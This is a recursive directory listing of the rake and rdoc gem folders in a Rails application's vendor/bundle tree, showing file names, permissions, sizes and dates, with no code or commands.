drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 support
-rw-r--r-- 1 rails rails  700 Sep 16  2016 test_private_reader.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 test_rake_application_options.rb
-rw-r--r-- 1 rails rails  15K Sep 16  2016 test_rake_application.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 test_rake_backtrace.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_rake_clean.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_rake_cpu_counter.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 test_rake_definitions.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 test_rake_directory_task.rb
-rw-r--r-- 1 rails rails  761 Sep 16  2016 test_rake_dsl.rb
-rw-r--r-- 1 rails rails  724 Sep 16  2016 test_rake_early_time.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_rake_extension.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_rake_file_creation_task.rb
-rw-r--r-- 1 rails rails  221 Sep 16  2016 test_rake_file_list_path_map.rb
-rw-r--r-- 1 rails rails  17K Sep 16  2016 test_rake_file_list.rb
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 test_rake_file_task.rb
-rw-r--r-- 1 rails rails 6.2K Sep 16  2016 test_rake_file_utils.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_rake_ftp_file.rb
-rw-r--r-- 1 rails rails 9.1K Sep 16  2016 test_rake_functional.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_rake_invocation_chain.rb
-rw-r--r-- 1 rails rails  419 Sep 16  2016 test_rake_late_time.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 test_rake_linked_list.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_rake_makefile_loader.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 test_rake_multi_task.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_rake_name_space.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 test_rake_package_task.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_rake_path_map_explode.rb
-rw-r--r-- 1 rails rails  481 Sep 16  2016 test_rake_path_map_partial.rb
-rw-r--r-- 1 rails rails 5.7K Sep 16  2016 test_rake_path_map.rb
-rw-r--r-- 1 rails rails  505 Sep 16  2016 test_rake_pathname_extensions.rb
-rw-r--r-- 1 rails rails  506 Sep 16  2016 test_rake_pseudo_status.rb
-rw-r--r-- 1 rails rails  430 Sep 16  2016 test_rake_rake_test_loader.rb
-rw-r--r-- 1 rails rails 1002 Sep 16  2016 test_rake.rb
-rw-r--r-- 1 rails rails  532 Sep 16  2016 test_rake_reduce_compat.rb
-rw-r--r-- 1 rails rails  883 Sep 16  2016 test_rake_require.rb
-rw-r--r-- 1 rails rails 9.5K Sep 16  2016 test_rake_rules.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_rake_scope.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_rake_task_argument_parsing.rb
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 test_rake_task_arguments.rb
-rw-r--r-- 1 rails rails  204 Sep 16  2016 test_rake_task_lib.rb
-rw-r--r-- 1 rails rails  603 Sep 16  2016 test_rake_task_manager_argument_resolution.rb
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 test_rake_task_manager.rb
-rw-r--r-- 1 rails rails 9.3K Sep 16  2016 test_rake_task.rb
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 test_rake_task_with_arguments.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 test_rake_test_task.rb
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 test_rake_thread_pool.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_rake_top_level_functions.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_rake_win32.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 test_thread_history_display.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_trace_output.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rake-10.4.2/test/support:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 7.8K Sep 16  2016 rakefile_definitions.rb
-rw-r--r-- 1 rails rails  970 Sep 16  2016 ruby_runner.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0:
total 176K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  687 Sep 16  2016 .autotest
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails 8.1K Sep 16  2016 CONTRIBUTING.rdoc
-rw-r--r--  1 rails rails 2.0K Sep 16  2016 CVE-2013-0256.rdoc
-rw-r--r--  1 rails rails   46 Sep 16  2016 .document
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 ExampleMarkdown.md
-rw-r--r--  1 rails rails 6.3K Sep 16  2016 ExampleRDoc.rdoc
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
-rw-r--r--  1 rails rails  75K Sep 16  2016 History.rdoc
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 LEGAL.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 2.4K Sep 16  2016 LICENSE.rdoc
-rw-r--r--  1 rails rails  11K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 5.6K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 4.4K Sep 16  2016 README.rdoc
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 RI.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 TODO.rdoc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/bin:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  938 Sep 16  2016 rdoc
-rwxr-xr-x 1 rails rails  188 Sep 16  2016 ri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib:
total 24K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 gauntlet_rdoc.rb
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 rdoc
-rw-r--r--  1 rails rails 5.0K Sep 16  2016 rdoc.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc:
total 868K
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 2.1K Sep 16  2016 alias.rb
-rw-r--r--  1 rails rails  142 Sep 16  2016 anon_class.rb
-rw-r--r--  1 rails rails 7.1K Sep 16  2016 any_method.rb
-rw-r--r--  1 rails rails 3.8K Sep 16  2016 attr.rb
-rw-r--r--  1 rails rails  20K Sep 16  2016 class_module.rb
-rw-r--r--  1 rails rails 9.4K Sep 16  2016 code_object.rb
-rw-r--r--  1 rails rails  121 Sep 16  2016 code_objects.rb
-rw-r--r--  1 rails rails 5.3K Sep 16  2016 comment.rb
-rw-r--r--  1 rails rails 3.6K Sep 16  2016 constant.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 context
-rw-r--r--  1 rails rails  29K Sep 16  2016 context.rb
-rw-r--r--  1 rails rails 5.9K Sep 16  2016 cross_reference.rb
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 encoding.rb
-rw-r--r--  1 rails rails  794 Sep 16  2016 erbio.rb
-rw-r--r--  1 rails rails  370 Sep 16  2016 erb_partial.rb
-rw-r--r--  1 rails rails  140 Sep 16  2016 extend.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 generator
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 generator.rb
-rw-r--r--  1 rails rails  114 Sep 16  2016 ghost_method.rb
-rw-r--r--  1 rails rails  142 Sep 16  2016 include.rb
-rw-r--r--  1 rails rails 2.7K Sep 16  2016 known_classes.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 markdown
-rw-r--r--  1 rails rails  35K Sep 16  2016 markdown.kpeg
-rw-r--r--  1 rails rails 374K Sep 16  2016 markdown.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 markup
-rw-r--r--  1 rails rails  29K Sep 16  2016 markup.rb
-rw-r--r--  1 rails rails   99 Sep 16  2016 meta_method.rb
-rw-r--r--  1 rails rails 9.1K Sep 16  2016 method_attr.rb
-rw-r--r--  1 rails rails 2.8K Sep 16  2016 mixin.rb
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 normal_class.rb
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 normal_module.rb
-rw-r--r--  1 rails rails  31K Sep 16  2016 options.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 parser
-rw-r--r--  1 rails rails 8.1K Sep 16  2016 parser.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 rd
-rw-r--r--  1 rails rails  14K Sep 16  2016 rdoc.rb
-rw-r--r--  1 rails rails 3.6K Sep 16  2016 rd.rb
-rw-r--r--  1 rails rails  935 Sep 16  2016 require.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 ri
-rw-r--r--  1 rails rails  315 Sep 16  2016 ri.rb
-rw-r--r--  1 rails rails 5.3K Sep 16  2016 rubygems_hook.rb
-rw-r--r--  1 rails rails  28K Sep 16  2016 ruby_lex.rb
-rw-r--r--  1 rails rails  12K Sep 16  2016 ruby_token.rb
-rw-r--r--  1 rails rails  12K Sep 16  2016 servlet.rb
-rw-r--r--  1 rails rails  378 Sep 16  2016 single_class.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 stats
-rw-r--r--  1 rails rails  11K Sep 16  2016 stats.rb
-rw-r--r--  1 rails rails  23K Sep 16  2016 store.rb
-rw-r--r--  1 rails rails 7.7K Sep 16  2016 task.rb
-rw-r--r--  1 rails rails 4.2K Sep 16  2016 test_case.rb
-rw-r--r--  1 rails rails 7.9K Sep 16  2016 text.rb
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 token_stream.rb
-rw-r--r--  1 rails rails 6.3K Sep 16  2016 tom_doc.rb
-rw-r--r--  1 rails rails 5.5K Sep 16  2016 top_level.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/context:
total 16K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.9K Sep 16  2016 section.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator:
total 52K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  20K Sep 16  2016 darkfish.rb
-rw-r--r--  1 rails rails 7.4K Sep 16  2016 json_index.rb
-rw-r--r--  1 rails rails 3.5K Sep 16  2016 markup.rb
-rw-r--r--  1 rails rails 2.3K Sep 16  2016 pot.rb
-rw-r--r--  1 rails rails  434 Sep 16  2016 ri.rb
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 template

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 darkfish
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 json_index

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/darkfish:
total 112K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.5K Sep 16  2016 class.rhtml
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 css
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .document
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fonts
-rw-r--r-- 1 rails rails  352 Sep 16  2016 _footer.rhtml
-rw-r--r-- 1 rails rails  659 Sep 16  2016 _head.rhtml
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 images
-rw-r--r-- 1 rails rails  570 Sep 16  2016 index.rhtml
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 js
-rw-r--r-- 1 rails rails  431 Sep 16  2016 page.rhtml
-rw-r--r-- 1 rails rails  334 Sep 16  2016 servlet_not_found.rhtml
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 servlet_root.rhtml
-rw-r--r-- 1 rails rails  269 Sep 16  2016 _sidebar_classes.rhtml
-rw-r--r-- 1 rails rails  440 Sep 16  2016 _sidebar_extends.rhtml
-rw-r--r-- 1 rails rails  438 Sep 16  2016 _sidebar_includes.rhtml
-rw-r--r-- 1 rails rails  172 Sep 16  2016 _sidebar_in_files.rhtml
-rw-r--r-- 1 rails rails  337 Sep 16  2016 _sidebar_installed.rhtml
-rw-r--r-- 1 rails rails  406 Sep 16  2016 _sidebar_methods.rhtml
-rw-r--r-- 1 rails rails  441 Sep 16  2016 _sidebar_navigation.rhtml
-rw-r--r-- 1 rails rails  326 Sep 16  2016 _sidebar_pages.rhtml
-rw-r--r-- 1 rails rails  369 Sep 16  2016 _sidebar_parent.rhtml
-rw-r--r-- 1 rails rails  657 Sep 16  2016 _sidebar_search.rhtml
-rw-r--r-- 1 rails rails  316 Sep 16  2016 _sidebar_sections.rhtml
-rw-r--r-- 1 rails rails  494 Sep 16  2016 _sidebar_table_of_contents.rhtml
-rw-r--r-- 1 rails rails  438 Sep 16  2016 _sidebar_VCS_info.rhtml
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 table_of_contents.rhtml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/darkfish/css:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 6.3K Sep 16  2016 fonts.css
-rw-r--r-- 1 rails rails 9.2K Sep 16  2016 rdoc.css

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/darkfish/fonts:
total 532K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  92K Sep 16  2016 Lato-LightItalic.ttf
-rw-r--r-- 1 rails rails  93K Sep 16  2016 Lato-Light.ttf
-rw-r--r-- 1 rails rails  94K Sep 16  2016 Lato-RegularItalic.ttf
-rw-r--r-- 1 rails rails  94K Sep 16  2016 Lato-Regular.ttf
-rw-r--r-- 1 rails rails  70K Sep 16  2016 SourceCodePro-Bold.ttf
-rw-r--r-- 1 rails rails  71K Sep 16  2016 SourceCodePro-Regular.ttf

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/darkfish/images:
total 112K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  733 Sep 16  2016 add.png
-rw-r--r-- 1 rails rails  372 Sep 16  2016 arrow_up.png
-rw-r--r-- 1 rails rails  764 Sep 16  2016 brick_link.png
-rw-r--r-- 1 rails rails  452 Sep 16  2016 brick.png
-rw-r--r-- 1 rails rails  774 Sep 16  2016 bug.png
-rw-r--r-- 1 rails rails  211 Sep 16  2016 bullet_black.png
-rw-r--r-- 1 rails rails  207 Sep 16  2016 bullet_toggle_minus.png
-rw-r--r-- 1 rails rails  209 Sep 16  2016 bullet_toggle_plus.png
-rw-r--r-- 1 rails rails  626 Sep 16  2016 date.png
-rw-r--r-- 1 rails rails  715 Sep 16  2016 delete.png
-rw-r--r-- 1 rails rails  659 Sep 16  2016 find.png
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 loadingAnimation.gif
-rw-r--r-- 1 rails rails  207 Sep 16  2016 macFFBgHack.png
-rw-r--r-- 1 rails rails  853 Sep 16  2016 package.png
-rw-r--r-- 1 rails rails  621 Sep 16  2016 page_green.png
-rw-r--r-- 1 rails rails  342 Sep 16  2016 page_white_text.png
-rw-r--r-- 1 rails rails  309 Sep 16  2016 page_white_width.png
-rw-r--r-- 1 rails rails  591 Sep 16  2016 plugin.png
-rw-r--r-- 1 rails rails  592 Sep 16  2016 ruby.png
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 tag_blue.png
-rw-r--r-- 1 rails rails  613 Sep 16  2016 tag_green.png
-rw-r--r-- 1 rails rails   97 Sep 16  2016 transparent.png
-rw-r--r-- 1 rails rails  584 Sep 16  2016 wrench_orange.png
-rw-r--r-- 1 rails rails  610 Sep 16  2016 wrench.png
-rw-r--r-- 1 rails rails  692 Sep 16  2016 zoom.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/darkfish/js:
total 112K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 darkfish.js
-rw-r--r-- 1 rails rails  90K Sep 16  2016 jquery.js
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 search.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/json_index:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   37 Sep 16  2016 .document
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/generator/template/json_index/js:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 navigation.js
-rw-r--r-- 1 rails rails 6.5K Sep 16  2016 searcher.js

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/markdown:
total 96K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  55K Sep 16  2016 entities.rb
-rw-r--r--  1 rails rails  426 Sep 16  2016 literals_1_8.kpeg
-rw-r--r--  1 rails rails 9.1K Sep 16  2016 literals_1_8.rb
-rw-r--r--  1 rails rails  505 Sep 16  2016 literals_1_9.kpeg
-rw-r--r--  1 rails rails 9.2K Sep 16  2016 literals_1_9.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/markup:
total 216K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  394 Sep 16  2016 attr_changer.rb
-rw-r--r--  1 rails rails 8.0K Sep 16  2016 attribute_manager.rb
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 attributes.rb
-rw-r--r--  1 rails rails  470 Sep 16  2016 attr_span.rb
-rw-r--r--  1 rails rails  361 Sep 16  2016 blank_line.rb
-rw-r--r--  1 rails rails  222 Sep 16  2016 block_quote.rb
-rw-r--r--  1 rails rails 3.2K Sep 16  2016 document.rb
-rw-r--r--  1 rails rails 5.3K Sep 16  2016 formatter.rb
-rw-r--r--  1 rails rails  17K Sep 16  2016 formatter_test_case.rb
-rw-r--r--  1 rails rails  416 Sep 16  2016 hard_break.rb
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 heading.rb
-rw-r--r--  1 rails rails  799 Sep 16  2016 include.rb
-rw-r--r--  1 rails rails  876 Sep 16  2016 indented_paragraph.rb
-rw-r--r--  1 rails rails   88 Sep 16  2016 inline.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 list_item.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 list.rb
-rw-r--r--  1 rails rails  463 Sep 16  2016 paragraph.rb
-rw-r--r--  1 rails rails  15K Sep 16  2016 parser.rb
-rw-r--r--  1 rails rails 8.2K Sep 16  2016 pre_process.rb
-rw-r--r--  1 rails rails  970 Sep 16  2016 raw.rb
-rw-r--r--  1 rails rails  285 Sep 16  2016 rule.rb
-rw-r--r--  1 rails rails  627 Sep 16  2016 special.rb
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 text_formatter_test_case.rb
-rw-r--r--  1 rails rails 2.1K Sep 16  2016 to_ansi.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 to_bs.rb
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 to_html_crossref.rb
-rw-r--r--  1 rails rails 8.5K Sep 16  2016 to_html.rb
-rw-r--r--  1 rails rails 5.5K Sep 16  2016 to_html_snippet.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 to_joined_paragraph.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 to_label.rb
-rw-r--r--  1 rails rails 3.6K Sep 16  2016 to_markdown.rb
-rw-r--r--  1 rails rails 6.2K Sep 16  2016 to_rdoc.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 to_table_of_contents.rb
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 to_test.rb
-rw-r--r--  1 rails rails 2.3K Sep 16  2016 to_tt_only.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 verbatim.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/parser:
total 124K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.8K Sep 16  2016 changelog.rb
-rw-r--r--  1 rails rails  35K Sep 16  2016 c.rb
-rw-r--r--  1 rails rails  444 Sep 16  2016 markdown.rb
-rw-r--r--  1 rails rails  408 Sep 16  2016 rd.rb
-rw-r--r--  1 rails rails  49K Sep 16  2016 ruby.rb
-rw-r--r--  1 rails rails 3.0K Sep 16  2016 ruby_tools.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 simple.rb
-rw-r--r--  1 rails rails  277 Sep 16  2016 text.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/rd:
total 100K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  23K Sep 16  2016 block_parser.rb
-rw-r--r--  1 rails rails  14K Sep 16  2016 block_parser.ry
-rw-r--r--  1 rails rails  32K Sep 16  2016 inline_parser.rb
-rw-r--r--  1 rails rails  15K Sep 16  2016 inline_parser.ry
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 inline.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/ri:
total 60K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  35K Sep 16  2016 driver.rb
-rw-r--r--  1 rails rails   84 Sep 16  2016 formatter.rb
-rw-r--r--  1 rails rails 4.8K Sep 16  2016 paths.rb
-rw-r--r--  1 rails rails   55 Sep 16  2016 store.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/lib/rdoc/stats:
total 20K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 10 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 normal.rb
-rw-r--r--  1 rails rails  802 Sep 16  2016 quiet.rb
-rw-r--r--  1 rails rails  982 Sep 16  2016 verbose.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/rdoc-4.2.0/test:
total 948K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.0K Sep 16  2016 binary.dat
-rw-r--r-- 1 rails rails    5 Sep 16  2016 hidden.zip.txt
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 MarkdownTest_1.0.3
-rw-r--r-- 1 rails rails   18 Sep 16  2016 README
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test.ja.largedoc
-rw-r--r-- 1 rails rails  309 Sep 16  2016 test.ja.rdoc
-rw-r--r-- 1 rails rails  284 Sep 16  2016 test.ja.txt
-rw-r--r-- 1 rails rails  258 Sep 16  2016 test_rdoc_alias.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 test_rdoc_any_method.rb
-rw-r--r-- 1 rails rails 4.9K Sep 16  2016 test_rdoc_attr.rb
-rw-r--r-- 1 rails rails  44K Sep 16  2016 test_rdoc_class_module.rb
-rw-r--r-- 1 rails rails 8.1K Sep 16  2016 test_rdoc_code_object.rb
-rw-r--r-- 1 rails rails 9.9K Sep 16  2016 test_rdoc_comment.rb
-rw-r--r-- 1 rails rails 4.7K Sep 16  2016 test_rdoc_constant.rb
-rw-r--r-- 1 rails rails  22K Sep 16  2016 test_rdoc_context.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 test_rdoc_context_section.rb
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 test_rdoc_cross_reference.rb
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 test_rdoc_encoding.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 test_rdoc_extend.rb
-rw-r--r-- 1 rails rails 5.7K Sep 16  2016 test_rdoc_generator_darkfish.rb
-rw-r--r-- 1 rails rails 6.6K Sep 16  2016 test_rdoc_generator_json_index.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_rdoc_generator_markup.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 test_rdoc_generator_pot_po_entry.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_rdoc_generator_pot_po.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 test_rdoc_generator_pot.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_rdoc_generator_ri.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 test_rdoc_i18n_locale.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 test_rdoc_i18n_text.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 test_rdoc_include.rb
-rw-r--r-- 1 rails rails  18K Sep 16  2016 test_rdoc_markdown.rb
-rw-r--r-- 1 rails rails  67K Sep 16  2016 test_rdoc_markdown_test.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 test_rdoc_markup_attribute_manager.rb
-rw-r--r-- 1 rails rails  960 Sep 16  2016 test_rdoc_markup_attributes.rb
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 test_rdoc_markup_document.rb
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 test_rdoc_markup_formatter.rb
-rw-r--r-- 1 rails rails  470 Sep 16  2016 test_rdoc_markup_hard_break.rb
-rw-r--r-- 1 rails rails  575 Sep 16  2016 test_rdoc_markup_heading.rb
-rw-r--r-- 1 rails rails  416 Sep 16  2016 test_rdoc_markup_include.rb
-rw-r--r-- 1 rails rails  950 Sep 16  2016 test_rdoc_markup_indented_paragraph.rb
-rw-r--r-- 1 rails rails  621 Sep 16  2016 test_rdoc_markup_paragraph.rb
-rw-r--r-- 1 rails rails  32K Sep 16  2016 test_rdoc_markup_parser.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 test_rdoc_markup_pre_process.rb
-rw-r--r-- 1 rails rails  293 Sep 16  2016 test_rdoc_markup_raw.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_rdoc_markup.rb
-rw-r--r-- 1 rails rails 8.1K Sep 16  2016 test_rdoc_markup_to_ansi.rb
-rw-r--r-- 1 rails rails 8.8K Sep 16  2016 test_rdoc_markup_to_bs.rb
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 test_rdoc_markup_to_html_crossref.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 test_rdoc_markup_to_html.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 test_rdoc_markup_to_html_snippet.rb
-rw-r--r-- 1 rails rails  577 Sep 16  2016 test_rdoc_markup_to_joined_paragraph.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 test_rdoc_markup_to_label.rb
-rw-r--r-- 1 rails rails 8.5K Sep 16  2016 test_rdoc_markup_to_markdown.rb
-rw-r--r-- 1 rails rails 8.0K Sep 16  2016 test_rdoc_markup_to_rdoc.rb
